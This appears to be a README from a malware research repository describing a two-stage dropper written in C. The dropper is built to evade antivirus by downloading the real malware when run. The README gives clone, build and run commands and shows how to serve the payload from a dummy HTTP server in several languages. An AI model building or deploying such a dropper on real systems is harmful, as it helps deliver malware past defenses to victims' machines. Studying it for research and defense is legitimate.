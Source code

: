# Overview
This is a two-stage dropper malware snippet create with C.  
The purpose of this malware is to avoid virus detection methods  
by downloading the target malware to a target machine when the  
executable runs.

## Build & Run
```bash
git clone https://github.com/0xvpr/Malicious-Software-Research.git msr
cd msr/06.living-off-the-land/01.simple-dropper
make # requires mingw
./dropper.exe # host must be running
```

## Testing
#### Host Dummy Server
In the the same directory, run any of the following commands on a (different machine).
Using python3:
```bash
PORT=8001
python3 -m http.server ${PORT}
```
Using ruby:
```bash
ruby -run -ehttpd . -p${PORT}
```
Using node:
```bash
PORT=8001
npm install -g http-server
http-server -p ${PORT}
```
Using php:
```bash
IP=$(ifconfig | awk '{print $2}' | grep "192") # wlan
PORT=8001
php -S ${IP}:${PORT}
```
